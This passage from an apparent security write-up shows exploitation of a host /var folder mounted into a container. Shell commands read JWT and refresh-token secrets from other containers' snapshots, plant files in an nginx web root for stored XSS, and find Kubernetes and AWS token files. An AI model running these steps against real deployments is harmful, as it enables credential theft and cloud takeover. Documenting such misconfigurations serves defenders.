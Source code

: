 ```
/host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/135/fs/docker-entrypoint.d/15-local-resolvers.envsh

/ # cat /host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/105/fs/usr/src/app/.env.example | grep -i secret
JWT_SECRET=85d<SNIP>a0
REFRESH_TOKEN_SECRET=14<SNIP>ea

/ # find /host-var/ -type f -iname 'index.html' 2>/dev/null
/host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/57/fs/usr/src/app/node_modules/@mapbox/node-pre-gyp/lib/util/nw-pre-gyp/index.html
<SNIP>
/host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/140/fs/usr/share/nginx/html/index.html
/host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/132/fs/usr/share/nginx/html/index.html

/ # echo '<!DOCTYPE html>' > /host-var/lib/containerd/io.containerd.snapshotter.v1.overlayfs/snapshots/140/fs/usr/sh
are/nginx/html/index2.html
```
```
The XSS was achieved:

![[/images/stored-xss-via-mounted-var-folder.png|Stored XSS via mounted /var folder]]

Note that the container DOES NOT require a restart or anything. Any changes made via the mounted **/var** folder will be applied instantly.

You can also replace configuration files, binaries, services, application files, and shell profiles to achieve automatic (or semi-automatic) RCE.

##### Access to cloud credentials

The container can read K8s serviceaccount tokens or AWS webidentity tokens
which allows the container to gain unauthorized access to K8s or cloud:

```bash
/ # find /host-var/ -type f -iname '*token*' 2>/dev/null | grep kubernetes.io
/host-var/lib/kubelet/pods/21411f19-934c-489e-aa2c-4906f278431e/volumes/kubernetes.io~projected/kube-api-access-64jw2/..2025_01_22_12_37_42.4197672587/token
<SNIP>
/host-var/lib/kubelet/pods/01c671a5-aaeb-4e0b-adcd-1cacd2e418ac/volumes/kubernetes.io~projected/kube-api-access-bljdj/..2025_01_22_12_17_53.265458487/token
/host-var/lib/kubelet/pods/01c671a5-aaeb-4e0b-adcd-1cacd2e418ac/volumes/kubernetes.io~projected/aws-iam-token/..2025_01_22_03_45_56.2328221474/token
/host-var/lib/kubelet/pods/5fb6bd26-a6aa-40cc-abf7-ecbf18dde1f6/volumes/kubernetes.io~projected/kube-api-access-fm2t6/..2025_01_22_12_25_25.3018586444/token
```
```
#### Docker

The exploitation in Docker (or in Docker Compose deployments) is exactly the same, except that usually
the other containers' filesystems are available under a different base path:

```bash
$ docker info | grep -i 'docker root\|storage driver'
 Storage Driver: overlay2
 Docker Root Dir: /var/lib/docker
```
```
So the filesystems are under `/var/lib/docker/overlay2/`:

```bash
```
